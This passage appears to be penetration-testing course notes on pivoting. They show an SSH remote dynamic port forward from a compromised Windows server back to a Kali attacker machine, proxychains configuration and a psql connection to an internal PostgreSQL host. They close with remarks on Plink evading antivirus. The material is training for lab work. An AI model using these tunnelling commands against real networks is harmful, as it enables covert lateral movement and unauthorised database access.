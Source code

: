 We can now create a remote dynamic port forward to our Kali machine, just as we did earlier
+ We'll pass the port **9998** to **-R** and authenticate as _kali_ back on our Kali machine:
```
ssh -N -R 9998 kali@192.168.118.4
```

We can check that the SOCKS proxy port is opened on our Kali machine using **ss**:
```
kali@kali:~$ ss -ntplu
Netid     State      Recv-Q      Send-Q                Local Address:Port            Peer Address:Port     Process
tcp       LISTEN     0           128                       127.0.0.1:9998                 0.0.0.0:*
tcp       LISTEN     0           128                         0.0.0.0:22                   0.0.0.0:*
tcp       LISTEN     0           128                           [::1]:9998                    [::]:*
tcp       LISTEN     0           128                            [::]:22                      [::]:*
```

Let's update **`/etc/proxychains4.conf`** to use this socket:
```
kali@kali:~$ tail /etc/proxychains4.conf             
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```

Now that the configuration file is pointing at our remote dynamic port forward SOCKS port, we can run **psql** through **proxychains** to connect to the PostgreSQL database as the _postgres_ user
+ We'll use the same **psql** command we would as if connecting directly from `MULTISERVER03`
```
proxychains psql -h 10.4.50.215 -U postgres
```
+ We're now interacting with the PostgreSQL database on PGDATABASE01 through an SSH remote dynamic port forward initiated from the OpenSSH client running on a Windows Server 2022 machine

### Plink
Administrators may want to avoid leaving OpenSSH on their Windows machines, so we're not guaranteed to discover an OpenSSH client
+ Even if we find ourselves on a recent version of Windows, the network administrators may have removed it 

Nevertheless, network administrators still need remote administration tools
+ Most networks have SSH servers running somewhere, and administrators need tools to connect to these servers from Windows hosts
+ Before OpenSSH was so readily available on Windows, most network administrators' tools of choice were _PuTTY_ and its command-line-only counterpart, _Plink_

One of the benefits of using tools that are popular with network administrators is that they will rarely be flagged by traditional antivirus software
+ This makes them appealing to attackers, since using them is relatively covert compared to more security-adjacent tools with similar functionality
